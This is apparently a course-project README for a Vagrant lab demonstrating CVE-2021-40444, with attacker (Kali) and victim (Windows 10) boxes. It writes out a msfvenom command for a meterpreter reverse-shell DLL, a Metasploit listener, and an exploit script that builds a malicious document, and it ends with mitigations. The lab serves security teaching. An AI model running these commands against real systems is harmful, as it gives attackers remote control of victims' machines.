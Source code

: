 # TIC4301_Project
TIC4301 Project - CVE-2021-40444

Download the following vagrant boxes:
Kali  -  https://drive.google.com/file/d/1RegQcT2jjFoaQRgLjXDYl4iS0HNt_mU2/view?usp=sharing
Win10 -  https://drive.google.com/file/d/1zcLertRoI-FrHDkRq1NO-KHaF88bMv6e/view?usp=sharing

Import the boxes with the following commands through vagrant:
  1. vagrant box add kali_package.box
  2. vagrant box add victim_package.box
  3. vagrant init kali_package.box
  4. vagrant init victim_package.box
  5. vagrant up

Setup:
  Win10:
    1. In the win10 box, log in as administrator with the password vagrant.
    2. Right click script.ps1 on the desktop and run with powershell. (Leave this open)
    3. Run ipconfig.exe and obtain the address for this host.

  Kali:
    1. cd Desktop/CVE-2021-40444.
    2. generate your malicious dll with msfvenom. # msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth1 LPORT=443 -f dll -o test/shell.dll
    3. start a listener in metasploit.
    4. generate the malicious document. # python3 exploit.py generate test/calc.dll http://<kali IP>
    5. visit http://<win 10 IP>/upload and upload the file.
    6. listen for the shell.
  
  Mitigations:
    1. Install KB5005565 hotfix.
    2. Edit windows registry with patch.reg in the repository.
  
  
